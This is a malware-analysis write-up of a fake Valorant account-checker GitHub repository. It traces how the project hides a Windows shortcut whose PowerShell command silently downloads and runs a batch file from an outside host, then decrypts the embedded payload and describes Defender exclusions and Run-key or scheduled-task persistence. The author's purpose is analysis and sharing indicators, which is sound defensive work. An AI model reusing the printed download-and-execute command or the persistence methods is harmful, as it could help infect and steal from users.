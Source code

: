 # Analysing a malicious github repository

## **Discovery**

I came across a github repository that had a somewhat legitimate looking project

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/Hxaoi/Valorant-Account-Checker" %}

It has 143 stars and 54 forks at the time of writting, so it looks believable, but if we take a closer look at the stars and forks:\


<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

They are all from fake accounts, created all on the same day practically.

Taking a closer look at the other repositories on this account, there is another one that's also backdoored:\
[https://github.com/Hxaoi/Twitter-Cracker](https://github.com/Hxaoi/Twitter-Cracker)

## Taking a look at the repository code

The code is a python and is simulating a account checker for a online game (Valorant).&#x20;

Taking a look at the code, a line jumps out:

```python
os.system("start results/save.lnk")
```

This is running a windows shortcut that is on the "results" folder inside the repository.

By checking this shortcut, we can see his target:

```powershell
%comspec% /C %SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden iwr -Uri https://x0.at/18v6.bat -OutFile $env:TEMP\18v6.bat;Start-Process $env:TEMP\18v6.bat
```

This downloads a .bat file from **https://x0.at/18v6.bat**, saves it to the temp folder and then runs it.



## Analysing the malware

The bat file is massive, having a size of 36mb.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

There is a big chunk of base64 defined on the top of the file, we can assume this will probably be our payload, at the end of the file, we see some interesting code:\


<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

After removing some repeated words, we can something like this:\


<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

It seems the big blob of base64 is encrypted using AES and compressed, by checking this code we can revert the process since we have the KEY and IV to decrypt the data, so I wrote a small powershell script to decrypt it, decompress it and then save it to disk:

```powershell
$XseZ='ReadLines';
$yJyL='Load';
$uZpI='GetCurrentProcess';
$dzbX='EntryPoint';
$tPqE='MainModule';
$waZb='FromBase64String';
$XmvD='TransformFinalBlock';
$ENIy='Split';
$gMuk='ElementAt';
$LLuy='CreateDecryptor';
$QCYT='ChangeExtension';

function oaFag($rKNRV){
	$Fneio=[System.Security.Cryptography.Aes]::Create();
	$Fneio.Mode=[System.Security.Cryptography.CipherMode]::CBC;
	$Fneio.Padding=[System.Security.Cryptography.PaddingMode]::PKCS7;
	$Fneio.Key=[System.Convert]::$waZb('DoI1GdINO/odI9JOThyl7401RvkgTfoAX8MQMw24HoM=');
	$Fneio.IV=[System.Convert]::$waZb('LTCc2yyupcYae/wYTpkiyw==');
	$mQSLR=$Fneio.CreateDecryptor();
	$ooztA=$mQSLR.$XmvD($rKNRV,0,$rKNRV.Length);
	$mQSLR.Dispose();
	$Fneio.Dispose();
	$ooztA;
}

function tryNE($rKNRV){
	$fRenP=New-Object System.IO.MemoryStream(,$rKNRV);
	$zUkbv=New-Object System.IO.MemoryStream;
	$gjVsO=New-Object System.IO.Compression.GZipStream($fRenP,[IO.Compression.CompressionMode]::Decompress);
	$gjVsO.CopyTo($zUkbv);$gjVsO.Dispose();
	$fRenP.Dispose();
	$zUkbv.Dispose();
	$zUkbv.ToArray();
}

$c = Get-Content -Path "C:\Users\windows10\Downloads\code.txt"

$wlBSz=$c.$ENIy(':');
$gRTVe=tryNE(oaFag ([Convert]::$waZb($wlBSz[0])));
$iRgKa=tryNE(oaFag ([Convert]::$waZb($wlBSz[1])));

[io.file]::WriteAllBytes('C:\Users\windows10\Downloads\f1.bin',$gRTVe);
[io.file]::WriteAllBytes('C:\Users\windows10\Downloads\f2.bin',$iRgKa);
```

This gives us two binaries, one of about 27mb and another one of about 28kb, they are both made in .NET.

I will start by having a look at the bigger file (27mb), and right of the get go we can see it is highly obfuscated:\


<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

The malware is deobfuscating the strings on this method:\


<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

With this, we can create our own helper method to deobfuscate the strings outside the code:

```csharp
static string Get(string A_0, int A_1, int A_2, int A_3, int A_4, int A_5)
{
    int num = 78787870;
    if ((-1743288475 ^ 461882411) == -2087697586)
    {
        int num2 = num + sizeof(ulong);
    }
    StringBuilder stringBuilder = new StringBuilder();
    foreach (char c in A_0.ToCharArray())
    {
        stringBuilder.Append((char)((int)c - A_2));
    }
    return stringBuilder.ToString();
}

static void Main(string[] args)
{
    Console.WriteLine(Get("", 421592687, -785059054, 1005452607, 940660616, -1106098698));
    Console.ReadLine();
}
```

After a few hours of deobfuscating the code, I got it a bit cleaner and tried matching the names with the behaviour:

<figure><img src=".gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

This malware acts more as a dropper, but it will add exclusions to Windows Defender and add persistence&#x20;

The malware will drop 2 files onto Application Data folder, one named "**OnwbaDTzzU.cmd**" and another named "**OnwbaDTzzU.vbs**"

If the malware runs as admin, it creates a scheduler task named "**OneDrive OnwbaDTzzU**", otherwise it creates a registry key named "**OneDrive OnwbaDTzzU**" on "**Software\Microsoft\Windows\CurrentVersion\Run"** pointing to the "**OnwbaDTzzU.vbs**" file

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

This adds persistence and drops more malware, which we will also have a look at.

## Looking at the dropped malware

Before being able to take a look at theresources, I create a little helper method to decompress the resources:

```csharp
 private static byte[] DecompressGzip(byte[] byteArr)
{
    MemoryStream memoryStream = new MemoryStream(byteArr);
    MemoryStream memoryStream2 = new MemoryStream();
    Stream stream = memoryStream;

    GZipStream gzipStream = new GZipStream(stream, CompressionMode.Decompress);
    gzipStream.CopyTo(memoryStream2);
    gzipStream.Dispose();
    memoryStream2.Dispose();
    memoryStream.Dispose();
    return memoryStream2.ToArray();
}
```

&#x20;Taking a look at the resource named "P", we can see It's also a .NET assembly, and has some interesting code, this time not obfuscated.

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

The code is considerable smaller, so it's easier for us to go through it, the line there on the `Assembly.Load()` jumps out, so let's take a look.

The method `Fat` defines a memorystream that is then decompressed and returned to the `Assembly.Load()`

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Since we cannot see the full memorystream content on dnspy, I change a bit the code, in order to save it to disk instead of loading the assembly

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

This gives us a very obfuscated .NET DLL

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

I've extracted another DLL that was hidden the same way, but did not analyse it.&#x20;

Some more information about the other binaries:

* WorldOfMythia.exe seems to infect discord installations, but I did not take a good look at it.

I looked at other binaries but not in depth, so I will not include it here.

## Conclusion

This is a very destructive piece of malware(s) , including a stealer, discord infector and even a crypto miner.&#x20;

I did not have time to analyse every last binary since there are a lot, but I uploaded them all to virustotal and left the associated hashes bellow.

While I didn't go into great detail with the analysis, I'm hopeful that someone else will take this to a more in-depth level and analyze some of these binaries

## Indicators

| Hash                                                              | Assembly          |
| ----------------------------------------------------------------- | ----------------- |
| 585ac7894d8146341ae408121c31ea0f95936e3719683c862a0ec2db2caccb0a  | WorldOfMythia.exe |
| 34f06a471d1329d2543c5b4df7e2346582279e7789bab518ee9ffc18a6eadf4d  | UAC.bin           |
| 35093cf30e63d1eb7bc8b7cfb39dea2a7f0beb7778a1939b66f0e55910f3da01  | Xmihuj.exe        |
| f5f25e5e5bc5b827257f0d7f78e2e2f1f6c3cab71dad38d69598055d706e9fee  | Qjctluhw.dll      |
| 661bca19ee42e61b481a5499cad2f5858940b7cef33dae924cec013dc939da7b  | Aeodr.dll         |
| 1ad4dc2d3c32c156d98e049133dfdc096a6667932613dce21d8f4f659fee5fd4  | 18v6.bat          |
| 54512dd064c21154462ada0523c7ca88f23ade0313f17b4c7136554fad669fd9  | Uqqjl.exe         |
| c978dfd73d3c988caa02b70a29eed369709c147066270c2a29c72acc83670b16  | WxpLuq.tmp        |
| b581309a29cee0fd4a681982688b998178dd5a81bb97d99deb5a2bace6d1dbc5  | Lewfoa.tmp        |


